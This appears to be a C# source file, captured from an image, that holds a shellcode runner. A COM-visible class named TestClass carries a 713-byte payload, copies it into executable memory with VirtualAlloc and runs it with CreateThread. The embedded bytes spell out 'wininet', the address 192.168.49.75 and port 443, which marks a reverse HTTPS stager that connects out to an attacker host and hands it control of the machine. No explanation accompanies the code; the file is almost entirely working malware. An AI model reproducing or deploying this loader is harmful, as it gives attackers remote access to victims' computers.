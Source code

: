 using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Windows.Forms;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
    IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr
   lpThreadId);
    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
    public TestClass()
    {
        byte[] buf = new byte[713] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x8b,0x72,0x50,
0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,
0x41,0x51,0x66,0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,0x8b,
0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x8b,0x48,
0x18,0x44,0x8b,0x40,0x20,0x50,0x49,0x01,0xd0,0xe3,0x56,0x4d,0x31,0xc9,0x48,
0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x48,0x31,0xc0,0x41,0xc1,0xc9,
0x0d,0xac,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,
0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x41,0x58,
0x41,0x58,0x48,0x01,0xd0,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,
0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x4b,0xff,0xff,0xff,0x5d,0x48,0x31,0xdb,0x53,0x49,0xbe,0x77,0x69,0x6e,0x69,
0x6e,0x65,0x74,0x00,0x41,0x56,0x48,0x89,0xe1,0x49,0xc7,0xc2,0x4c,0x77,0x26,
0x07,0xff,0xd5,0x53,0x53,0x48,0x89,0xe1,0x53,0x5a,0x4d,0x31,0xc0,0x4d,0x31,
0xc9,0x53,0x53,0x49,0xba,0x3a,0x56,0x79,0xa7,0x00,0x00,0x00,0x00,0xff,0xd5,
0xe8,0x0e,0x00,0x00,0x00,0x31,0x39,0x32,0x2e,0x31,0x36,0x38,0x2e,0x34,0x39,
0x2e,0x37,0x35,0x00,0x5a,0x48,0x89,0xc1,0x49,0xc7,0xc0,0xbb,0x01,0x00,0x00,
0x4d,0x31,0xc9,0x53,0x53,0x6a,0x03,0x53,0x49,0xba,0x57,0x89,0x9f,0xc6,0x00,
0x00,0x00,0x00,0xff,0xd5,0xe8,0xa0,0x00,0x00,0x00,0x2f,0x72,0x50,0x38,0x75,
0x5a,0x34,0x78,0x69,0x77,0x4c,0x57,0x7a,0x71,0x37,0x4b,0x70,0x30,0x67,0x38,
0x49,0x42,0x51,0x50,0x57,0x49,0x74,0x55,0x5f,0x64,0x79,0x4a,0x6f,0x75,0x4b,
0x50,0x6b,0x58,0x44,0x39,0x7a,0x68,0x6f,0x4d,0x50,0x75,0x5f,0x6f,0x66,0x6e,
0x71,0x6a,0x62,0x74,0x6b,0x56,0x67,0x70,0x65,0x6c,0x78,0x53,0x39,0x50,0x55,
0x6b,0x6e,0x6f,0x48,0x78,0x33,0x54,0x39,0x42,0x5f,0x4b,0x2d,0x54,0x6d,0x7a,
0x66,0x4b,0x31,0x43,0x6b,0x65,0x35,0x4e,0x36,0x41,0x56,0x53,0x34,0x41,0x5f,
0x37,0x32,0x49,0x34,0x55,0x61,0x41,0x73,0x4a,0x59,0x74,0x6c,0x6c,0x6c,0x41,
0x44,0x63,0x58,0x71,0x74,0x58,0x57,0x61,0x51,0x65,0x57,0x36,0x52,0x32,0x79,
0x42,0x43,0x31,0x5f,0x5a,0x53,0x31,0x6d,0x49,0x6e,0x45,0x5f,0x72,0x45,0x54,
0x79,0x31,0x5a,0x4f,0x64,0x4e,0x52,0x71,0x58,0x42,0x79,0x54,0x6e,0x6f,0x65,
0x51,0x68,0x30,0x4e,0x00,0x48,0x89,0xc1,0x53,0x5a,0x41,0x58,0x4d,0x31,0xc9,
0x53,0x48,0xb8,0x00,0x32,0xa8,0x84,0x00,0x00,0x00,0x00,0x50,0x53,0x53,0x49,
0xc7,0xc2,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x48,0x89,0xc6,0x6a,0x0a,0x5f,0x48,
0x89,0xf1,0x6a,0x1f,0x5a,0x52,0x68,0x80,0x33,0x00,0x00,0x49,0x89,0xe0,0x6a,
0x04,0x41,0x59,0x49,0xba,0x75,0x46,0x9e,0x86,0x00,0x00,0x00,0x00,0xff,0xd5,
0x4d,0x31,0xc0,0x53,0x5a,0x48,0x89,0xf1,0x4d,0x31,0xc9,0x4d,0x31,0xc9,0x53,
0x53,0x49,0xc7,0xc2,0x2d,0x06,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x1f,0x48,
0xc7,0xc1,0x88,0x13,0x00,0x00,0x49,0xba,0x44,0xf0,0x35,0xe0,0x00,0x00,0x00,
0x00,0xff,0xd5,0x48,0xff,0xcf,0x74,0x02,0xeb,0xaa,0xe8,0x55,0x00,0x00,0x00,
0x53,0x59,0x6a,0x40,0x5a,0x49,0x89,0xd1,0xc1,0xe2,0x10,0x49,0xc7,0xc0,0x00,
0x10,0x00,0x00,0x49,0xba,0x58,0xa4,0x53,0xe5,0x00,0x00,0x00,0x00,0xff,0xd5,
0x48,0x93,0x53,0x53,0x48,0x89,0xe7,0x48,0x89,0xf1,0x48,0x89,0xda,0x49,0xc7,
0xc0,0x00,0x20,0x00,0x00,0x49,0x89,0xf9,0x49,0xba,0x12,0x96,0x89,0xe2,0x00,
0x00,0x00,0x00,0xff,0xd5,0x48,0x83,0xc4,0x20,0x85,0xc0,0x74,0xb2,0x66,0x8b,
0x07,0x48,0x01,0xc3,0x85,0xc0,0x75,0xd2,0x58,0xc3,0x58,0x6a,0x00,0x59,0x49,
0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5 };
        int size = buf.Length;
        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
        Marshal.Copy(buf, 0, addr, size);
        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0,
IntPtr.Zero);
        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }

    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}
